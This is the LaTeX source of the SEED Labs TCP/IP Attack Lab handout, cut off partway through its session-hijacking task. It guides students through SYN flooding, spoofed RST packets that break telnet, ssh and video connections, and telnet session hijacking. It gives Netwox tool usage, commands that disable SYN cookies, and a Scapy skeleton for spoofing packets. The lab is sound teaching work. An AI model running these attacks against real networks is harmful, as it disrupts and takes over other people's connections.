\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. See details at \url{https://www.handsonsecurity.net}.}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

%% Lab Environment
\newcommand{\seedenvironment}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentA}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentB}{This lab has been tested on our pre-built
Ubuntu 20.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentAB}{This lab has been tested on our pre-built
Ubuntu 16.04 and 20.04 VMs, which can be downloaded from the SEED website. }

\newcommand{\nodependency}{Since we use containers to set up the lab environment, 
this lab does not depend too much on our SEED VM. You can do this lab
using other VMs or physical machines. }







\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      This work is licensed under a Creative Commons
      Attribution-NonCommercial-ShareAlike 4.0 International License.
      If you remix, transform, or build upon the material, 
      this copyright notice must be left intact, or reproduced in a way that is reasonable to
      the medium in which the work is being re-published.}}
\vspace{0.1in}
}






\newcommand{\telnet} {\texttt{telnet}\xspace}
\newcommand{\tcpFigs}{./Figs}

\lhead{\bfseries SEED Labs -- TCP/IP Attack Lab}

\begin{document}

\newcounter{task}
\setcounter{task}{1}
\newcommand{\mytask} {\bf {\noindent \arabic{task}} \addtocounter{task}{1} \,}



\begin{center}
{\LARGE TCP/IP Attack Lab}
\end{center}

\seedlabcopyright{2018}



% *******************************************
% SECTION
% ******************************************* 
\section{Overview}


The learning objective of this lab is for students to gain first-hand
experience on vulnerabilities, as well as on attacks against these
vulnerabilities. Wise people learn from mistakes. In security education, we
study mistakes that lead to software vulnerabilities. Studying mistakes
from the past not only help students understand why systems are vulnerable,
why a seemly-benign mistake can turn into a disaster, and why many
security mechanisms are needed. More importantly, it also helps students
learn the common patterns of vulnerabilities, so they can avoid making
similar mistakes in the future. Moreover, using vulnerabilities as case
studies, students can learn the principles of secure design, secure
programming, and security testing.

The vulnerabilities in the TCP/IP protocols represent a special genre of
vulnerabilities in protocol designs and implementations; they provide an
invaluable lesson as to why security should be designed in from the
beginning, rather than being added as an afterthought. Moreover, studying
these vulnerabilities help students understand the challenges of network
security and why many network security measures are needed.
In this lab, students will conduct several attacks on TCP.
This lab covers the following topics:

\begin{itemize}[noitemsep]
\item The TCP protocol
\item TCP SYN flood attack, and SYN cookies 
\item TCP reset attack
\item TCP session hijacking attack
\item Reverse shell 
\item A special type of TCP attack, the Mitnick attack, is covered 
in a separate lab. 
\end{itemize}


\paragraph{Readings and videos.}
Detailed coverage of the TCP attacks can be found in the following:

\begin{itemize}
\item Chapter 16 of the SEED Book, \seedbook
\item Section 6 of the SEED Lecture, \seedisvideo
\end{itemize}


\paragraph{Lab environment.} \seedenvironment



% *******************************************
% SECTION
% ******************************************* 
\section{Lab Environment}



\paragraph{Network Setup.}
To conduct this lab, students need to have at least 3 machines. One computer
is used for attacking, the second computer is used as the victim, and 
the third computer is used as the observer.
Students can set up 3 virtual machines on the same host computer, or they can set up
2 virtual machines, and then use the host computer as the third computer.
For this lab, we put all these three machines on the same LAN,
the configuration is described in Figure~\ref{tcp:fig:env}.



\begin{figure}[htb]
  \begin{center}
    
\includegraphics[width=0.6\textwidth]{\tcpFigs/TCP_Env_setup.pdf}
  \end{center}
  \caption{Environment Setup}
  \label{tcp:fig:env}
\end{figure}
 



\paragraph{{\tt Netwox} Tools.}
We need tools to send out network packets of different types and with different
contents. We can use {\tt Netwag} to do that. However, the GUI interface of {\tt Netwag} 
makes it difficult for us to automate the process. Therefore, we strongly 
suggest students to use its command-line version, the
{\tt Netwox} command, which is the underlying command invoked by {\tt Netwag}.  

{\tt Netwox} consists of a suite of tools, each having a specific number. 
You can run a command like following (the parameters depend on
which tool you are using). For some of the tool, you have to run it 
with the root privilege: 

\begin{lstlisting}[backgroundcolor=]
   $ sudo netwox number [parameters ... ]
\end{lstlisting}


If you are not sure how to set the parameters, you can look at the 
manual by issuing {\tt "netwox number --help"}.
You can also learn the parameter settings by running {\tt Netwag}:
for each command you execute from the graphic interface, {\tt Netwag} 
actually invokes a corresponding {\tt Netwox} command, and it displays
the parameter settings. Therefore, you can simply copy and paste 
the displayed command.


\paragraph{Scapy Tool.}
Some of the tasks in this lab can also be conducted using Scapy, which 
is a powerful interactive packet manipulation program. 
Scapy is very well maintained and is widely used; while
\texttt{Netwox} is not being maintained any more. There are many online tutorials on Scapy; we
expect students to learn how to use Scapy from those tutorials. 





% *******************************************
% SECTION
% ******************************************* 
\section{Lab Tasks}


In this lab, students need to conduct attacks on the TCP/IP protocols. 
They can use the {\tt Netwox} tools and/or other tools in the attacks. 
All the attacks are performed on \linux operating systems. 
However, instructors can require students to also conduct 
the same attacks on other operating systems and compare the 
observations.



To simplify the ``guess'' of TCP sequence numbers and source port numbers, 
we assume that attackers are on the same physical network as the victims. 
Therefore, you can use sniffer tools to get that information.
The following is the list of attacks that need to be implemented.



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection {Task 1: SYN Flooding Attack}


\begin{figure}[htb]
  \begin{center}
    
\includegraphics[width=0.9\textwidth]{\tcpFigs/TCP_SYN_Flooding.pdf}
  \end{center}
  \caption{SYN Flooding Attack}
  \label{tcp:fig:synflooding}
\end{figure}
 


SYN flood is a form of DoS attack in which attackers send many SYN
requests to a victim's TCP port, but the attackers have no intention 
to finish the 3-way handshake procedure. Attackers either use spoofed 
IP address or do not continue the procedure. 
Through this attack, attackers can flood the victim's queue that is 
used for half-opened connections, i.e. the connections that has finished SYN, SYN-ACK, 
but has not yet gotten a final ACK back. When this queue is full, 
the victim cannot take any more connection. Figure~\ref{tcp:fig:synflooding}
illustrates the attack.

The size of the queue has a system-wide setting.  In \linux, we can check the
setting using the following command: 


\begin{lstlisting}[backgroundcolor=]
  $ sudo sysctl -q net.ipv4.tcp_max_syn_backlog
\end{lstlisting}

We can use command {\tt "netstat -na"} to check the usage of the queue, 
i.e., the number of half-opened connection associated with a listening port. 
The state for such connections is \texttt {SYN-RECV}. If the 3-way handshake
is finished, the state of the connections will be {\tt ESTABLISHED}.


In this task, you need to demonstrate the SYN flooding attack. You can 
use the Netwox tool to conduct the attack, and then use a sniffer 
tool to capture the attacking packets. While the attack is going on, 
run the {\tt "netstat -na"} command on the victim machine, and compare 
the result with that before the attack. 
Please also describe how you know whether the attack is 
successful or not. 

The corresponding Netwox tool for this task is numbered 76. Here is a
simple help screen for this tool. You can also type {\tt "netwox 76 --help"}
to get the help information.

\begin{lstlisting}[frame=single, backgroundcolor=,
         caption={The usage of the Netwox Tool 76}, label=tcp:list:netwox76]
Title:  Synflood    
    Usage: netwox 76 -i ip -p port [-s spoofip]
    Parameters:
    -i|--dst-ip ip              destination IP address 
    -p|--dst-port port          destination port number 
    -s|--spoofip spoofip        IP spoof initialzation type 
\end{lstlisting}

\paragraph{SYN Cookie Countermeasure:}
If your attack seems unsuccessful, one thing that you can investigate is whether 
the SYN cookie mechanism is turned on. SYN cookie is a defense mechanism to 
counter the SYN flooding attack.  The mechanism will kick in if the machine
detects that it is under the SYN flooding attack.
You can use the {\tt sysctl} command to turn on/off the SYN cookie mechanism:
\begin{verbatim}
  $ sudo sysctl -a | grep cookie     (Display the SYN cookie flag) 
  $ sudo sysctl -w net.ipv4.tcp_syncookies=0 (turn off SYN cookie)
  $ sudo sysctl -w net.ipv4.tcp_syncookies=1 (turn on  SYN cookie)
\end{verbatim}

Please run your attacks with the SYN cookie mechanism on and off,
and compare the results. In your report, please describe why 
the SYN cookie can effectively protect the machine against the 
SYN flooding attack. If your instructor does not cover the 
mechanism in the lecture, you can find out how the SYN cookie 
mechanism works from the Internet.



\paragraph{Note on Scapy:} Although theoretically, we can use Scapy for this task, we have
observed that the number of packets sent out by Scapy per second is much smaller than that by
\texttt{Netwox}. This low rate makes it difficult for the attack to be successful.   We were
not able to succeed in SYN flooding attacks using Scapy.



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection {Task 2: TCP RST Attacks on \texttt{telnet} and 
             \texttt{ssh} Connections}

The TCP RST Attack can terminate an established TCP connection between
two victims. For example, if there is an established \telnet connection (TCP)
between two users A and B, attackers can spoof a RST packet from A to B,
breaking this existing connection. To succeed in this attack, attackers
need to correctly construct the TCP RST packet. 

In this task, you need to launch an TCP RST attack to break an existing 
\telnet connection between A and B. After that,
try the same attack on an {\tt ssh} connection. Please describe
your observations.  To simplify the lab,
we assume that the attacker and the victim are on the same LAN,
i.e., the attacker can observe the TCP traffic between
A and B.


\paragraph{Using Netwox.} 
The corresponding Netwox tool for this task is numbered 78. Here is a
simple help screen for this tool. You can also type {\tt "netwox 78 --help"}
to get the help information.

\begin{lstlisting}[frame=single, backgroundcolor=,
         caption={The usage of the Netwox Tool 78}, label=tcp:list:netwox78]
Title: Reset every TCP packet
    Usage: netwox 78 [-d device] [-f filter] [-s spoofip]
    Parameters:
    -d|--device device             device name {Eth0}
    -f|--filter filter             pcap filter
    -s|--spoofip spoofip           IP spoof initialization type {linkbraw}
\end{lstlisting}


\paragraph{Using Scapy.} Please also use Scapy to conduct the TCP RST attack. 
A skeleton code is provided in the following (you need to replace each
\texttt{@@@@} with an actual value):  


\begin{lstlisting}
#!/usr/bin/python
from scapy.all import *

ip  = IP(src="@@@@", dst="@@@@")
tcp = TCP(sport=@@@@, dport=@@@@, flags="@@@@", seq=@@@@, ack=@@@@)
pkt = ip/tcp
ls(pkt)
send(pkt,verbose=0)
\end{lstlisting}
 




% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection {Task 3: TCP RST Attacks on Video Streaming Applications}

Let us make the TCP RST attack more interesting by experimenting it on 
the applications that are widely used in nowadays.
We choose the video streaming application in 
this task. For this task, you can choose a video streaming web site that you 
are familiar with (we will not name any specific web site here).  Most of
video sharing websites establish a TCP connection with the client for 
streaming the video content. The attacker's goal is to disrupt the TCP session 
established between the victim and video streaming machine. To 
simplify the lab, we assume that the attacker and the victim are on the 
same LAN. In the following, we describe the common interaction between
a user (the victim) and some video-streaming web site:

\begin{itemize}
\item The victim browses for a video content in the video-streaming web 
site, and selects one of the videos for streaming. 

\item Normally video contents are hosted by a different machine,
where all the video contents are located. After the victim selects 
a video, a TCP session will be established between the victim 
machine and the content server for the video streaming.
The victim can then view the video he/she has selected.
\end{itemize}

Your task is to disrupt the video streaming by breaking the 
TCP connection between the victim and the content server.
You can let the victim user browse the video-streaming 
site from another (virtual) machine or from the same (virtual) machine
as the attacker. Please be noted that, to avoid liability issues,
any attacking packets should be targeted 
at the victim machine (which is the machine run by yourself), 
not at the content server machine (which does not belong to you).
You only need to use \texttt{Netwox} for this task.  

            

% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 4: TCP Session Hijacking}



\begin{figure}[htb]
  \begin{center}
    
\includegraphics[width=0.8\textwidth]{\tcpFigs/TCP_Session_Hijacking.pdf}
  \end{center}
  \caption{TCP Session Hijacking Attack}
  \label{tcp:fig:hijacking}
\end{figure}
 
   
The objective of the TCP Session Hijacking attack is to hijack an 
existing TCP connection (session) between two victims by injecting malicious contents
into this session. If this connection is a \telnet session, attackers
can inject malicious commands (e.g. deleting an important file) 
into this session, causing the victims 
to execute the malicious commands. 
Figure~\ref{tcp:fig:hijacking} depicts how the attack works.
In this task, you need to demonstrate how you can hijack a 
\texttt{telnet} session between two computers. Your goal is to get the
the \texttt{telnet} server to run a malicious command from you.
For the simplicity of the task, we assume that 
the attacker and the victim are on the same LAN.



\paragraph{Using Netwox.}
The corresponding Netwox tool for this task is numbered 40. Here is part of
the manual for this tool. You can also type {\tt "netwox 40 --help"}
to get the full help information. You may also need to use Wireshark
to find out the correct parameters for building the spoofed TCP packet.

\begin{lstlisting}[frame=single, backgroundcolor=,
     caption={Part usage of netwox tool 40}, label=tcp:list:netwox40]
Title:  Spoof Ip4Tcp packet   
    Usage: netwox 40 [parameters ...]
    Parameters:
    -l|--ip4-src ip                Source IP      
    -m|--ip4-dst ip                Destination IP    
    -j|--ip4-ttl uint32            Time to live 
    -o|--tcp-src port              TCP Source port number    
    -p|--tcp-dst port              TCP Destination port number    
    -q|--tcp-seqnum uint32         TCP sequence number
    -E|--tcp-window uint32         TCP window size
    -r|--tcp-acknum uint32         TCP acknowledge number 
    -z|--tcp-ack|+z|--no-tcp-ack   TCP ack bit
    -H|--tcp-data data             TCP data
\end{lstlisting}


You can use Wireshark to figure out what value you should put into each field of the 
spoofed TCP packets. It should be noted in the TCP session hijacking section of the 
SEED book, the command listed there does not set all the fields of the TCP and IP
headers. The fields that are not set will use the default value provided
by \texttt{netwox}. Those default 
values work for Ubuntu 12.04, but some of them do not work for Ubuntu 16.04. 
If you use the SEED book as a reference, you need to set those fields accordingly, instead 
of using the default. All the 
